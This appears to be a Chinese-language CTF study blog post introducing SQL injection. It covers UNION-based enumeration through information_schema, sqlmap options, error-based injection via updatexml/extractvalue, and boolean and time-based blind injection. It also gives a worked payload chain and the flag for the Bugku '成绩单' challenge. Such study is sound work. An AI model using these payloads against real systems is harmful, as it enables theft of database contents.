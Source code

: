 ```yaml
---
title: SQL注入入门
date: 2019-07-25 09:40:09
tags:
- SQL
- web
categories: CTF
mathjax: true
---
```


![1562999206468](1562999206468.png)



#### 判断有无引号

- 根据字段的意义或输入的值
  - Name/可以输入字母或符号
  - Id/输入是数字
- 运算测试id=2-1
  - 结果与id=1一样，说明2-1被执行，没有被引号包裹
  - 结果与id=2一样，说明2-1被当做字符串先进行了类型转换，再执行，有引号



#### 判断单双引号

- 一般来说可以直接用转义字符进行判断

  ![1562999570039](1562999570039.png)



  ![1562999587796](1562999587796.png)

  ps:上面这个bugku上的成绩单一题是利用post进行传值

  这里的后台就可以认为是单引号

```mysql
  Select * from table1 where id = ‘$id’
```



#### Union进行注入

- 将两个或多个查询的结果合并到一个结果集中。
- 所有查询中的列数和列的顺序必须相同。数据类型必须兼容。



##### 确定列数

- 方法一：union select 1,2,3…，尝试到报错之前的那个数就是列数
- 方法二：order by 1..…，也是尝试到报错之前的那个数就是列数



##### 确定显示字段

```txt
//mysql中一些基础知识
1. -- 与后面的这个单引号连接在一起，无法形成有效的mysql语句
2. --+ 加号与上面的区别就是多了一个空格符，-- -也有一样的效果
3. # 会注释掉后面的语句	
```



##### information_schema

这个数据库存放的是数据库和数据表的元信息

- 看数据库

  ```mysql
  select schema_name from information_schema.schemata;
  ```

- 看表名

  ```mysql
  select table_name from information_schema.tables;
  ```

- 看列名

  ```mysql
  select column_name from information_schema.columns;
  ```

- ```mysql
  #格式
  select group_concat(column_name) from information_schema.columns where table_name=‘xxx’/0x…;
  ```



##### 根据已知信息查数据

- `Select group_concat(列名) from 数据库名.表名;`





#### Sqlmap

- -–dbs 枚举数据库管理系统数据库
- -–tables 枚举的 DBMS 数据库中的表   -T 指定
- -–columns 枚举 DBMS 数据库表列  -C 指定
- -–dump 转储数据库管理系统的数据库中的表项



#### 报错注入 

##### updatexml

- UPDATEXML (XML_document, XPath_string, new_value); 
- 第一个参数：XML_document是String格式，为XML文档对象的名称，文中为Doc；
- 第二个参数：XPath_string (`Xpath`格式的字符串)。
- 第三个参数：new_value，是String格式，替换查找到的符合条件的数据。
- 利用的关键是，`updatexml`第二个参数需要的是`Xpath`格式的字符串。如果输入的不符合`Xpath`格式，将会发生错误。



##### extractvalue

- `extractvalue`函数与`updatexml`函数基本相同 ，区别在于`extractvalue`仅有两个参数。
- EXTRACTVALUE (XML_document, XPath_string); 
- 第一个参数：XML_document是String格式，为XML文档对象的名称，文中为Doc 。
- 第二个参数：XPath_string (`Xpath`格式的字符串)。
- 同样的，`extractvalue`第二个参数需要的是`Xpath`格式的字符串。如果输入的不符合`Xpath`格式，将会发生错误。
- `32.php?id=1 and extractvalue(1,concat(0x7e,(select USER()),0x7e))`



#### 练手题：bugku 成绩单

![1563002860330](1563002860330.png)

```mysql
#构造过程
id=-1' union select 1,2,3,4#  //爆出字段，发现四个都有回显
id=-1'union select 1,2,3,database()#  //得到数据库的名字skctf_flag
id=-1' union select 1,2,3,group_concat(table_name) from information_schema.tables where table_schema=database()#  //获取表名fl4g,sc
id=-1' union select 1,2,3,group_concat(column_name) from information_schema.columns where table_name='fl4g'#  //获取行名skctf_flag
id=-1' union select 1,2,3,skctf_flag from fl4g# //读取字段类容
```

`BUGKU{Sql_INJECT0N_4813drd8hz4}`





#### 盲注

- 页面不会返回查询结果
- 页面状态只有两种，真/假

##### 基于布尔的盲注攻击

- 攻击者在参数中输入类似“用户名第一个字母是a么”这样的SQL语句，根据页面结果判断真假。如果为真，继续暴力破解第二个字母。如果为假，则更改条件，“用户名第一个字母是b么”，以此类推进行基于布尔的盲注攻击。
- `SUBSTRING(str,pos,len)`，分别代表了被截取字符串、开始截取位置、截取长度。如果没有定义`len`，则截取至`str`末尾。`pos`可以为负值，意思为倒数第几位。

###### 确定长度

`?id=1 and (select length(group_concat(table_name)) from information_schema.tables where table_schema=database())<4`

###### 确定具体内容

`?id=1 and (select substring(group_concat(table_name),1,1) from information_schema.tables where table_schema=database())=‘a’`



##### 基于时间的盲注

- Sleep(5)
- benchmark(10000000,MD5(1))

